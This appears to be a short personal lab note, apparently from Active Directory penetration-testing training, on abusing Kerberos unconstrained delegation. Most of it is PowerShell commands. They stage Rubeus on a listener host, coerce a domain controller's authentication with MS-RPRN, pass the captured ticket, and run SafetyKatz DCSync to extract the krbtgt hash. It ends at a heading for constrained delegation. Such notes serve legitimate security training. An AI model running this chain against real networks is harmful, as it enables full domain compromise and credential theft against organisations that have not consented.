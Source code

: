 ### **Unconstrained**
Use rubeus on the server to run on listener mode
```powershell
echo F | xcopy C:\AD\Tools\Rubeus.exe \\<LISTENER MACHINE>\C$\Users\Public\Rubeus.exe /Y
```
log in the server
```powershell
winrs -r:<LISTENER MACHINE> cmd
```
Launch rubeus
```powershell
C:\Users\Public\Rubeus.exe monitor /targetuser:<TARGET MACHINE>$ /interval:5 /nowrap
```
![[Pasted image 20231025163953.png]]
Now use MS-RPRN to force authentication from dcorp-dc$(Machine account)
```powershell
C:\AD\Tools\MS-RPRN.exe \\<TARGET MACHINE> \\<LISTENER MACHINE>
```
Rubeus is triggered
![[Pasted image 20231025164204.png]]
Copy the ticket and use it with rubeus on the local machine
```powershell
C:\AD\Tools\Rubeus.exe ptt /ticket:<TICKET>
```
![[Pasted image 20231025164640.png]]
And launch safetykatz to dcsync
```powershell
C:\AD\Tools\SafetyKatz.exe "lsadump::dcsync /user:<MACHINE>\krbtgt" "exit"
```

### **Constrained**
With the account with the permission's hash launch rubeus to ask a tgt as administrator
